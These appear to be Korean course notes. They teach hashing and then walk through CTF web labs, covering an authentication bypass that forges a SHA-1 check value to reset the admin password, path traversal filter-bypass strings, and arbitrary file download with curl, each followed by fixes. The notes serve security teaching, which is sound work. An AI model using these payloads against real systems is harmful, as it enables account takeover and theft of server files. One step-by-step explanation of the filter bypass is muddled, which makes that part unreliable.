# 회원가입: 비밀번호를 Hash로 저장
def signup(username, password):
    password_hash = hashlib.sha256(password.encode()).hexdigest()
    # DB에 저장
    db.insert(username=username, password_hash=password_hash)

# 로그인: 입력받은 비밀번호를 Hash화하여 비교
def login(username, password):
    # DB에서 사용자 정보 조회
    user = db.get_user(username)

    # 입력 비밀번호를 Hash화
    input_hash = hashlib.sha256(password.encode()).hexdigest()

    # 저장된 Hash와 비교
    if user.password_hash == input_hash:
        return "로그인 성공"
    else:
        return "비밀번호 오류"
```

💡 **중요!**
> 관리자조차도 사용자의 원본 비밀번호를 알 수 없습니다. DB에는 Hash 값만 저장되어 있기 때문이죠.

⚠️ **주의: Rainbow Table 공격**

단순 Hash만으로는 부족합니다. **Rainbow Table** 공격에 취약하기 때문입니다.

**Rainbow Table이란?**
- 흔히 사용되는 비밀번호와 그 Hash 값을 미리 계산해둔 테이블
- Hash 값을 보고 역으로 비밀번호를 찾을 수 있음

**예시:**
```
password    → 5f4dcc3b5aa765d61d8327deb882cf99 (MD5)
123456      → e10adc3949ba59abbe56e057f20f883e (MD5)
qwerty      → d8578edf8458ce06fbc5bb76a58c5ca4 (MD5)
...
```

**대응 방법: Salt 사용**

```python
import hashlib
import os

def signup_with_salt(username, password):
    # 랜덤 Salt 생성
    salt = os.urandom(32)

    # 비밀번호 + Salt를 Hash화
    password_hash = hashlib.sha256(password.encode() + salt).hexdigest()

    # DB에 Hash와 Salt 모두 저장
    db.insert(username=username, password_hash=password_hash, salt=salt)
```

#### 📦 2. 파일 무결성 검증

파일이 변조되지 않았음을 확인하는 용도

**사용 예시:**

```bash
# 파일의 Hash 값 생성
sha256sum important_file.pdf
# 출력: a3d5e8f7... important_file.pdf

# 나중에 파일이 변경되었는지 확인
sha256sum important_file.pdf
# 출력: a3d5e8f7... (동일) → 파일 변조 없음
# 출력: b4e6f9a8... (다름) → 파일 변조됨!
```

**활용 분야:**
- 소프트웨어 배포 시 무결성 확인
- 디지털 포렌식에서 증거 보존
- 백업 파일의 무결성 검증

#### 🔗 3. 블록체인 (Blockchain)

비트코인 등 암호화폐에서 핵심 기술로 사용

**블록체인의 Hash 활용:**


각 블록은 이전 블록의 Hash를 포함하여, 체인이 형성됩니다. 하나의 블록을 변조하면 이후 모든 블록의 Hash가 변경되어 위변조를 쉽게 감지할 수 있습니다.

#### 🆔 4. 데이터 식별자 (Identifier)

긴 데이터를 짧고 고정된 길이의 식별자로 변환

**예시:**
- Git 커밋 ID: SHA-1 Hash 사용
- 파일 중복 제거: Hash가 같으면 동일 파일
- 캐시 키: URL을 Hash화하여 캐시 키로 사용

---

### 2.5 실습: Hash 생성 및 확인

#### 🔧 온라인 Hash 생성 도구

강사님께서 소개해주신 URL:
```
https://emn178.github.io/online-tools/
```

이 사이트에서 다양한 Hash 알고리즘을 테스트할 수 있습니다.

#### 실습 1: MD5 Hash 생성

**문제 상황:**
- 사용자 ID가 "guest"일 때의 Hash 값 확인

**단계:**

1. 온라인 도구 접속
2. Hash 알고리즘 선택: MD5
3. 입력값: `guest`
4. Hash 생성

**결과:**
```
입력: guest
MD5:  84e0343a0486ff05530df6c705c8bb4d
```

💡 **팁:**
> 문제를 풀 때 Hash 값이 제공되면, 온라인 도구로 직접 생성해보면서 확인할 수 있습니다.

#### 실습 2: SHA-1 Hash 생성

**문제 상황:**
- Check 파라미터로 전달되는 Hash 값이 무엇인지 확인

**단계:**

1. 온라인 도구에서 SHA-1 선택
2. 입력값: `guest`
3. Hash 생성 및 길이 확인

**결과:**
```
입력: guest
SHA-1: 35675e68f4b5af7b995d9205ad0fc43842f16450
길이: 40자 → SHA-1 확인!
```

**길이 세기 방법:**
```
35675e68f4b5af7b995d9205ad0fc43842f16450
1234567890 (10자)
1234567890 (20자)
1234567890 (30자)
1234567890 (40자) ✓
```

#### 실습 3: Hash 값으로 알고리즘 추측하기

**문제:**
다음 Hash 값들은 어떤 알고리즘으로 생성되었을까요?

```
1. 5f4dcc3b5aa765d61d8327deb882cf99
2. 5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8
3. 5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
```

**풀이:**

```bash
# 1번: 길이 세기
echo -n "5f4dcc3b5aa765d61d8327deb882cf99" | wc -c
# 출력: 32 → MD5

# 2번: 길이 세기
echo -n "5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8" | wc -c
# 출력: 40 → SHA-1

# 3번: 길이 세기
echo -n "5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8" | wc -c
# 출력: 64 → SHA-256
```

---

### 2.6 Hash와 보안 사고 조치 기준

#### 📜 개인정보의 안전성 확보조치 기준

강사님의 말씀:

> "비밀번호 암호화할 때 Hash 일방향성 암호 알고리즘을 써야 된다라고 안전성 확보 조치 기준에 있죠."

**법적 근거:**
- 「개인정보의 안전성 확보조치 기준」
- 개인정보보호법 시행령 제30조 관련

**주요 내용:**
- 비밀번호는 **일방향 암호화**하여 저장
- 복호화 가능한 방식으로 저장 금지
- 안전한 Hash 알고리즘 사용 권장

**권장 알고리즘:**
- ✅ SHA-256 이상
- ✅ bcrypt, scrypt, Argon2 (비밀번호 전용 Hash)
- ❌ MD5, SHA-1 (사용 금지)

💡 **중요!**
> 시스템 관리자조차도 사용자의 비밀번호를 알 수 없어야 합니다. 이것이 Hash를 사용하는 근본적인 이유입니다.

---

## ✅ Section 2 학습 체크리스트

- [ ] Hash의 정의와 목적을 이해한다
- [ ] Hash의 5가지 핵심 특징을 설명할 수 있다
  - [ ] 고정된 길이 출력
  - [ ] 일방향성 (비가역성)
  - [ ] 결정론적
  - [ ] 충돌 저항성
- [ ] MD5, SHA-1, SHA-256의 차이와 보안 수준을 비교할 수 있다
- [ ] Hash 값의 길이로 알고리즘을 추측할 수 있다
- [ ] 비밀번호 저장에 Hash를 사용하는 이유를 설명할 수 있다
- [ ] Rainbow Table 공격과 Salt의 개념을 이해한다
- [ ] 온라인 도구를 사용하여 Hash를 생성할 수 있다
- [ ] 법적으로 요구되는 비밀번호 암호화 방식을 안다

## 📋 핵심 요약

### 1. Hash란?
- 임의 길이 데이터 → 고정 길이 데이터로 변환하는 **일방향 암호화**

### 2. Hash의 핵심 특징
| 특징 | 의미 | 활용 |
|:---:|:---|:---|
| **고정 길이** | 항상 동일한 길이 출력 | 알고리즘 식별 가능 |
| **일방향성** | 역산 불가능 | 비밀번호 안전 저장 |
| **결정론적** | 같은 입력 → 같은 출력 | 무결성 검증 |
| **눈사태 효과** | 1bit 변경 → 완전히 다른 Hash | 위변조 감지 |
| **충돌 저항** | 서로 다른 입력 → 다른 Hash | 보안성 확보 |

### 3. 알고리즘 비교
- **MD5**: 32자, ❌ 취약, 비보안 용도만
- **SHA-1**: 40자, ⚠️ 단계적 폐기, 레거시 시스템
- **SHA-256**: 64자, ✅ 권장, 현재 표준

### 4. 실무 활용
- 비밀번호 저장 (필수: Salt 사용)
- 파일 무결성 검증
- 블록체인
- 데이터 식별자

### 5. 보안 요구사항
- 법적으로 비밀번호는 **일방향 암호화** 필수
- 관리자도 원본 비밀번호를 알 수 없어야 함
- SHA-256 이상 사용 권장

---

**다음 섹션 예고:**

이제 Hash의 기초를 다졌으니, 본격적으로 **웹 취약점 실습**에 들어갑니다! SQL Injection, Path Traversal, Command Injection 등 다양한 취약점을 직접 공격하고 분석해보겠습니다. 실전 문제 풀이를 통해 취약점 진단 능력을 키워봅시다!

---
## 🎯 Section 3: 웹 취약점 실습 - 기초편

### 3.1 실습 환경 소개

#### 🖥️ 실습 플랫폼

오늘 실습은 **CTF (Capture The Flag)** 스타일의 웹 취약점 문제를 풀어보는 방식으로 진행됩니다.

**실습 방식:**
- 각 문제마다 취약점이 존재하는 웹 애플리케이션 제공
- 취약점을 찾아 공격하여 **Flag (정답)**를 획득
- Flag 제출 시 점수 획득

**학습 목표:**
- 실제 웹 취약점을 직접 체험
- 공격자의 관점에서 시스템 분석
- 취약점 발견 및 개선방안 도출

💡 **강사님의 격려:**
> "해킹 아 별거 아니네, 웹 해킹 별거 아니네. 물론 해킹에 대해 굉장히 깊지만, 이런 정말 간단한 거, 여러 정도는 뭐 그래요, 2 곱하기 3 같은 느낌이에요. 알아둬야지 이 정도는 아셔야죠."

#### 📊 실습 진행 현황

강사님께서 점수판을 확인하시면서:

> "5950점이요? 고형님 어제 뭐 하신 거예요? 왜 수업이 끝났는데 쉬지 않으신 거죠?"

**실습 문화:**
- 조별 협업 가능
- 서로 풀이 방법 공유 가능 (Flag는 개인마다 다름)
- 잘하는 분께 질문하고 배우기

---

### 3.2 Insufficient Authentication (불충분한 인증) 취약점

#### 📝 문제 개요

**문제명**: Insufficient Authentication
**취약점 유형**: 불충분한 사용자 인증
**난이도**: ⭐⭐☆☆☆

**문제 상황:**
- 로그인 페이지에 guest/guest로 로그인 가능
- 사용자 정보 수정 기능 존재
- Admin 계정으로 로그인해야 Flag 획득

#### 🔍 취약점 분석

**Step 1: 초기 정찰**

```bash
# 기본 접속
http://target.com/login.php
```

**화면 구성:**
- ID/PW 입력 폼
- 플레이스홀더: guest / guest

**로그인 시도:**
```
ID: guest
PW: guest
→ "Hi Guest" 메시지 출력
```

**Step 2: 사용자 정보 수정 기능 발견**

로그인 후 "Modify" 버튼 클릭

```
URL: http://target.com/modify.php
```

**화면 구성:**
- User ID 입력란
- User PW 입력란
- Submit 버튼

#### 🔎 Burp Suite를 통한 요청 분석

**정상 수정 요청 캡처:**

```http
POST /modify.php HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

check=35675e68f4b5af7b995d9205ad0fc43842f16450&user_id=guest&user_pw=guest
```

**파라미터 분석:**

| 파라미터 | 값 | 의미 |
|:---:|:---|:---|
| `check` | `35675e68f4b5af7b995d9205ad0fc43842f16450` | ??? (40자 Hash) |
| `user_id` | `guest` | 사용자 ID |
| `user_pw` | `guest` | 사용자 비밀번호 |

🤔 **의문점:**
> `check` 파라미터가 무엇일까? 40자 길이의 Hash 값인 것 같은데...

#### 🧩 Hash 값 분석

**Hash 길이 확인:**

```bash
echo -n "35675e68f4b5af7b995d9205ad0fc43842f16450" | wc -c
# 출력: 40
```

💡 **발견!**
> 40자 = SHA-1 Hash!

**Hash 생성 테스트:**

```bash
# "guest"를 SHA-1으로 Hash화
echo -n "guest" | shasum
# 출력: 35675e68f4b5af7b995d9205ad0fc43842f16450

# 일치! check 파라미터는 user_id의 SHA-1 Hash 값
```

#### 💡 취약점 발견

**추론:**
1. `check` 파라미터는 사용자 ID의 SHA-1 Hash
2. 서버는 `check` 값으로 어떤 사용자의 정보를 수정할지 결정
3. 즉, `check` 값을 admin의 Hash로 바꾸면?
   → Admin 계정의 비밀번호를 변경할 수 있을 것!

**취약점:**
- 사용자 인증이 단순히 Hash 값 비교로만 이루어짐
- 다른 사용자의 Hash를 생성할 수 있으면 권한 상승 가능
- **IDOR (Insecure Direct Object Reference)** 취약점

#### 🎯 공격 시나리오



#### 🔧 실습 가이드

**Step 1: Admin의 SHA-1 Hash 생성**

온라인 도구 또는 터미널 사용:

```bash
echo -n "admin" | shasum
# 출력: d033e22ae348aeb5660fc2140aec35850c4da997
```

**Step 2: Burp Suite에서 요청 가로채기**

1. Burp Suite Proxy를 켜고 브라우저 설정
2. /modify.php에서 정보 수정 시도
3. Burp Suite의 Intercept 탭에서 요청 캡처

**Step 3: 요청 변조**

**변조 전:**
```http
POST /modify.php HTTP/1.1
...
check=35675e68f4b5af7b995d9205ad0fc43842f16450&user_id=guest&user_pw=guest
```

**변조 후:**
```http
POST /modify.php HTTP/1.1
...
check=d033e22ae348aeb5660fc2140aec35850c4da997&user_id=admin&user_pw=1234
```

**Step 4: 변경 확인**

응답:
```
비밀번호가 변경되었습니다.
```

**Step 5: Admin으로 로그인**

```
ID: admin
PW: 1234
→ Flag 획득!
```

#### 📊 취약점 요약

**취약점 유형**: Insufficient Authentication (불충분한 인증)

**발생 원인:**
- 사용자 식별을 예측 가능한 Hash 값으로만 수행
- 별도의 세션 검증 없이 클라이언트가 제공한 값만 신뢰
- 권한 검증 부재

**영향:**
- 다른 사용자의 계정 정보 변경 가능
- 권한 상승 (Privilege Escalation)
- 관리자 계정 탈취 가능

**개선방안:**
1. **세션 기반 인증 도입**
   - 로그인 시 서버에서 세션 생성
   - 세션 ID를 쿠키로 관리
   - 모든 요청에서 세션 검증

2. **권한 검증 강화**
   - 사용자가 본인의 정보만 수정할 수 있도록 검증
   - 예: `if (session.user_id != request.user_id) { deny(); }`

3. **재인증 요구**
   - 중요한 정보 변경 시 비밀번호 재입력 요구
   - 2FA (Two-Factor Authentication) 도입

---

### 3.3 Path Traversal (경로 조작) - Replace 우회

#### 📝 문제 개요

**문제명**: Replace
**취약점 유형**: Path Traversal (경로 조작) - 필터링 우회
**난이도**: ⭐⭐⭐☆☆

**문제 상황:**
- PHP 파일을 include하는 기능
- `./` 문자열을 필터링 (Replace)
- pw.php 파일을 읽어야 Flag 획득

#### 🔍 문제 분석

**초기 화면:**

```
URL: http://target.com/default.php

출력:
default.php
Hello World
```

**수도코드 (의사코드) 제공:**

```php
<?php
$file = $_GET['file'];

if (empty($file)) {
    $file = "default.php";
}

// ./ 문자열 필터링
$file = str_replace("./", "", $file);

echo $file;  // 파일명 출력
include($file);  // 파일 include
?>
```

#### 🧩 코드 동작 분석

**동작 순서:**



**예시 1: 정상 요청**
```
URL: ?file=default.php
→ str_replace("./", "", "default.php")
→ "default.php" (변화 없음)
→ include("default.php")
→ "Hello World" 출력
```

**예시 2: 경로 조작 시도**
```
URL: ?file=../pw.php
→ str_replace("./", "", "../pw.php")
→ "../pw.php"에서 "./"를 찾음
→ "../pw.php" → ".pw.php" (치환됨)
→ include(".pw.php")
→ 오류 (파일 없음)
```

#### 💡 취약점 발견: Replace 우회

**문제점:**
- `str_replace()`는 **한 번만** 실행됨
- 치환 후 남은 문자열을 재검사하지 않음

**우회 방법:**
- `./` 문자열을 중첩하여 삽입
- 치환 후에도 `./`가 남도록 구성

**예시:**

```
입력: ..././pw.php
      ↓
치환: str_replace("./", "", "..././pw.php")
      중간의 "./" 제거
      ↓
결과: ../pw.php
```

**상세 분석:**

```
원본: . . / . / p w . p h p
      0 1 2 3 4 5 6 7 8 9 10

1단계: "./" 찾기 (index 1-3)
. . / . / p w . p h p
  ^ ^ ^
  찾음!

2단계: "./" 제거
. . p w . p h p
0 1 2 3 4 5 6

아니다! 다시 보면:
. . / . / p w . p h p
    ^ ^   (index 3-4)
    이것도 "./"인데?

하지만 str_replace()는 한 번만 실행되므로
첫 번째 "./"만 제거하고 끝남

최종 결과: . . p w . p h p
           → 이건 잘못된 해석

올바른 이해:
..././pw.php
  ↓ (중간 "./" 제거)
../pw.php
```

더 명확한 시각화:

```
..././pw.php
└┬┘└┬┘
 │  └─ 이 부분이 제거됨
 └─ 이 부분은 남음

치환 과정:
. . / . / p w . p h p
    └──┘ → 제거
. . /   p w . p h p
└──┘
최종: ../pw.php
```

#### 🎯 공격 시나리오



#### 🔧 실습 가이드

**Step 1: 기본 경로 조작 시도**

```
URL: ?file=../pw.php
```

**결과:**
```
.pw.php
[파일 없음 오류]
```

❌ **실패**: `./ 가 필터링되어 `.pw.php`로 변경됨

**Step 2: 필터 우회 페이로드 작성**

```
URL: ?file=..././pw.php
```

**치환 과정:**
```
입력: ..././pw.php
      ↓ (중간 ./ 제거)
결과: ../pw.php ✓
```

**Step 3: 요청 전송**

```bash
curl "http://target.com/?file=..././pw.php"
```

**결과:**
```
../pw.php
Flag: CTF{path_traversal_bypass_success}
```

✅ **성공!**

#### 🔄 다양한 우회 기법

**패턴 1: 중첩 삽입**
```
..././        → ../
...//./       → ../
.....///./    → ../
```

**패턴 2: 여러 단계 상위 이동**
```
..././..././pw.php     → ../../pw.php
..././..././..././     → ../../../
```

**패턴 3: 복잡한 조합**
```
....//....//pw.php     → ../../pw.php (만약 "//" 필터링 있다면)
```

#### 📊 취약점 요약

**취약점 유형**: Path Traversal + 필터링 우회

**발생 원인:**
- 입력값 필터링을 **단 한 번만** 수행
- 치환 후 남은 문자열에 대한 재검사 없음
- 재귀적(Recursive) 필터링 미적용

**영향:**
- 상위 디렉토리 접근 가능
- 서버 내부 파일 읽기
- 소스 코드 노출
- 설정 파일 접근

**개선방안:**

1. **필터링 방식 개선**

   **잘못된 방법:**
   ```php
   $file = str_replace("./", "", $file);  // 한 번만 실행
   ```

   **올바른 방법 1: 재귀적 필터링**
   ```php
   while (strpos($file, "./") !== false) {
       $file = str_replace("./", "", $file);
   }
   ```

   **올바른 방법 2: 개별 문자 필터링**
   ```php
   $file = str_replace(".", "", $file);  // . 제거
   $file = str_replace("/", "", $file);  // / 제거
   ```

2. **화이트리스트 방식**

   ```php
   $allowed_files = ['default.php', 'about.php', 'contact.php'];

   if (!in_array($file, $allowed_files)) {
       die("Access Denied");
   }

   include($file);
   ```

3. **경로 정규화 및 검증**

   ```php
   // 실제 경로 확인
   $real_path = realpath($file);
   $base_path = realpath('/var/www/html/includes/');

   // 베이스 경로 내에 있는지 확인
   if (strpos($real_path, $base_path) !== 0) {
       die("Access Denied");
   }

   include($real_path);
   ```

4. **파일명만 허용**

   ```php
   // 경로 구분자 차단
   if (preg_match('/[\/\\\\]/', $file)) {
       die("Access Denied");
   }

   // 허용된 디렉토리에서만 include
   include('/var/www/html/includes/' . $file);
   ```

---

### 3.4 File Download 취약점

#### 📝 문제 개요

**문제명**: Download
**취약점 유형**: Arbitrary File Download (임의 파일 다운로드)
**난이도**: ⭐⭐☆☆☆

**문제 상황:**
- 파일 다운로드 기능 존재
- down.cgi 파일 자체를 다운로드해야 함
- 다운로드한 파일에서 Flag 획득

#### 🔍 취약점 분석

**초기 화면:**

```html
<a href="/download?file=test">Download 1</a>
```

**클릭 시:**
- test.cgi 파일이 다운로드됨
- 파일 내용: "File download test"

**Burp Suite로 요청 분석:**

```http
GET /down.cgi?file=test HTTP/1.1
Host: target.com
```

**응답:**
```http
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Content-Disposition: attachment; filename="test.cgi"

File download test
```

#### 💡 취약점 발견

**추론:**
1. `file` 파라미터로 파일명을 전달받음
2. down.cgi가 파일 다운로드를 처리
3. down.cgi 자체를 다운로드하면?
   → 소스 코드를 볼 수 있을 것!

**시도 1: 직접 요청**

```
URL: /down.cgi?file=down.cgi
```

**결과:**
```
404 Not Found
```

❌ **실패**: 현재 디렉토리에 down.cgi가 없는 것으로 보임

**시도 2: 경로 조작**

```
URL: /down.cgi?file=../down.cgi
```

**결과:**
```
200 OK
[down.cgi 소스 코드 다운로드 성공!]
```

✅ **성공!**

#### 🔧 실습 가이드

**Step 1: 기본 다운로드 테스트**

```bash
curl "http://target.com/down.cgi?file=test" -o test.cgi
cat test.cgi
# 출력: File download test
```

**Step 2: down.cgi 자체 다운로드 시도**

```bash
# 실패 예상
curl "http://target.com/down.cgi?file=down.cgi" -o down1.cgi
# 404 Not Found

# 경로 조작
curl "http://target.com/down.cgi?file=../down.cgi" -o down2.cgi
# 200 OK
```

**Step 3: 다운로드한 파일 분석**

```bash
cat down2.cgi
```

**down.cgi 소스 코드:**

```perl
#!/usr/bin/perl

use CGI;
$cgi = new CGI;

$file = $cgi->param('file');

# 확장자 검증
if ($file !~ /\.cgi$/) {
    print "Content-type: text/html\n\n";
    print "Invalid file extension";
    exit;
}

# 파일 크기 체크
$size = -s $file;

# 파일 다운로드
print "Content-type: application/octet-stream\n";
print "Content-Disposition: attachment; filename=\"$file\"\n\n";

open(FILE, $file) or die "Cannot open file";
print <FILE>;
close(FILE);

# Flag가 있는 설정 파일 include
require "config.inc";  # ← 수상한 부분!
```

**Step 4: config.inc 파일 다운로드**

```bash
curl "http://target.com/down.cgi?file=../config.inc" -o config.inc
cat config.inc
```

**config.inc 내용:**

```perl
# Configuration file
$flag = "CTF{arbitrary_file_download_vuln}";
```

✅ **Flag 획득!**

#### 📊 취약점 요약

**취약점 유형**: Arbitrary File Download

**발생 원인:**
- 사용자 입력을 신뢰하여 파일 경로 생성
- 경로 조작 방어 미흡
- 다운로드 가능 파일 목록 제한 없음

**영향:**
- 시스템 내부 파일 다운로드
- 소스 코드 노출
- 설정 파일 노출 (DB 비밀번호 등)
- 민감 정보 유출

**개선방안:**

1. **화이트리스트 기반 파일 제공**

   ```perl
   my %allowed_files = (
       'test' => '/var/www/downloads/test.cgi',
       'doc1' => '/var/www/downloads/doc1.pdf',
       'doc2' => '/var/www/downloads/doc2.pdf'
   );

   my $file_key = $cgi->param('file');

   if (!exists $allowed_files{$file_key}) {
       die "Access Denied";
   }

   my $file_path = $allowed_files{$file_key};
   ```

2. **경로 검증**

   ```perl
   use Cwd 'abs_path';

   my $file = $cgi->param('file');
   my $base_dir = '/var/www/downloads/';

   # 절대 경로로 변환
   my $abs_path = abs_path($base_dir . $file);

   # 베이스 디렉토리 내에 있는지 확인
   if ($abs_path !~ /^\Q$base_dir\E/) {
       die "Access Denied";
   }
   ```

3. **파일명 검증 강화**

   ```perl
   # 경로 구분자 차단
   if ($file =~ /[\/\\]/) {
       die "Invalid filename";
   }

   # 파일명 형식 검증
   if ($file !~ /^[a-zA-Z0-9_\-]+\.[a-z]{2,4}$/) {
       die "Invalid filename format";
   }
   ```

4. **간접 참조 사용**

   ```perl
   # 파일 ID로만 접근
   my $file_id = $cgi->param('id');

   # DB에서 실제 파일 경로 조회
   my $file_path = get_file_path_from_db($file_id);

   # 사용자는 실제 경로를 알 수 없음
   ```

---

### 3.5 Path Traversal 고급 - Replace 변형

#### 📝 문제 개요

**문제명**: Download2
**취약점 유형**: Path Traversal - 복잡한 필터링 우회
**난이도**: ⭐⭐⭐☆☆

**문제 상황:**
- 파일 다운로드 기능 (Download 문제와 유사)
- 하지만 `../`를 필터링함
- `..//` 형태로 필터링하는 것으로 추정

#### 🔍 취약점 분석

**시도 1: 기본 경로 조작**

```
URL: ?file=../down.cgi
```

**결과:**
```
404 Not Found
```

❌ **실패**: `../`가 필터링된 것으로 보임

**시도 2: 중첩 삽입 (Replace 문제와 동일한 방법)**

```
URL: ?file=..././down.cgi
```

**결과:**
```
404 Not Found
```

❌ **여전히 실패**: 다른 필터링 방식을 사용하는 것 같음

#### 💡 필터링 패턴 추측

**가설 1:** `./../`를 필터링?
```
./../down.cgi → down.cgi (필터링됨)
```

**가설 2:** `..//`를 필터링?
```
..//down.cgi → down.cgi (필터링됨)
```

**가설 3:** `../`와 `..//` 모두 필터링?

#### 🧪 실험: 다양한 패턴 시도

```bash
# 패턴 1
curl "http://target.com/down.cgi?file=..././down.cgi"
# 404

# 패턴 2
curl "http://target.com/down.cgi?file=....//down.cgi"
# 200 OK! ✓
```

✅ **발견!**

**필터링 규칙:**
- `../` → 제거
- `..//` → 제거

**우회 방법:**
```
....//down.cgi
  ↓ (..// 제거)
../down.cgi
```

#### 🔧 실습 가이드

**Step 1: 필터 분석**

```python
# 추정되는 필터링 로직
def filter_path(path):
    path = path.replace("../", "")
    path = path.replace("..//", "")
    return path

# 테스트
print(filter_path("....//down.cgi"))
